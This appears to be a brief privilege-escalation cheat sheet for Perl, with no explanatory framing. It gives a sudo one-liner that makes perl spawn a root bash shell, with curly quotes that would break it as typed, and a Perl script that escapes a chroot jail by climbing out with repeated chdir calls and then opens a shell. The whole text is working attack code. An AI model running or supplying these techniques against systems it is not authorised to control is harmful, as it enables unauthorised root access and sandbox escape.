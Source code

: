 # Sudo
```bash
sudo perl -e ‘system (“/bin/bash”)’
```
# Chroot scape
```perl
#!/usr/bin/perl
	
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) 
{
    chdir ".."
}
chroot ".";
system("/bin/bash");
```
